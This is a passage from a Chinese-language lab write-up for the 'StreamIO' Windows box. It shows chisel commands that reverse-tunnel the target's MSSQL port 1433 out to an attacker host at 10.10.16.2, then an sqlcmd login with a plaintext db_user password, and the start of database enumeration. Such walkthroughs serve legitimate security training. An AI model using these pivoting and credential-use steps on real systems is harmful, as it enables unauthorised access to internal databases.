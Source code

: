 使用chisel将靶机1433端口转发到攻击机的9999

```
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse

./chisel.exe client 10.10.16.2:8888 R:9999:127.0.0.1:1433
```

攻击机就可以使用数据库连接工具连接数据库，使用`sqlcmd`以`db_user`用户连接到数据库，读取`streamio_backup`库会显示权限不足

```
./sqlcmd -S 127.0.0.1:9999 -U db_user -P B1@hB1@hB1@h
```

![image-20250519141234229](./StreamIO-Windows/image-20250519141234229.png)

那就登录到`db_admin`用户来访问数据库,并且指定数据库为`streamio_backup`

查询表名

![image-20250519152440377](./StreamIO-Windows/image-20250519152440377.png)

查询列名

![image-20250519152533812](./StreamIO-Windows/image-20250519152533812.png)
